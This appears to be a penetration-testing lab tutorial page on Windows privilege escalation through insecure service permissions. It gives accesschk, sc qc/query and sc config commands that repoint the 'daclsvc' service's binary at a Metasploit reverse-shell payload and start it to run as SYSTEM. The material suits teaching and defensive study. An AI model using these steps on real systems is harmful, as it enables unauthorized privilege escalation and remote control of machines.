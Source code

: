 # Insecure Permission

Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous (e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS). Some may be useful (e.g. SERVICE\_STOP, SERVICE\_START). Some are dangerous (e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS)

**If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.**

Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges! unless the user you have access to can reboot the system and the service would automatically run on startup

we use winPEAS to find services with insecure permissions

![](<../../../../.gitbook/assets/image (82).png>)

![](<../../../../.gitbook/assets/image (98).png>)

Note that we can modify the “daclsvc” service.

We can confirm this with accesschk.exe:

```
 .\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](<../../../../.gitbook/assets/image (92).png>)

Check the current configuration of the service:

```
sc qc daclsvc
```

![](<../../../../.gitbook/assets/image (72).png>)

demand start means the service has to started manually he binary pathname is also available the service has no dependencies and it also should run with the system user permissions

Check the current status of the service:

```
​sc query daclsvc
```

![](<../../../../.gitbook/assets/image (93).png>)

the service is stopped

since we can change the service configs the easiest way to exploit this is to set the binary path to the location of a reverse shell payload

create a reverse shell with metasploit and place it in a directory where you have read/write permission

then Reconfigure the service to use our reverse shell executable:

```
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```

![](<../../../../.gitbook/assets/image (85).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start daclsvc
```

![](<../../../../.gitbook/assets/image (84).png>)
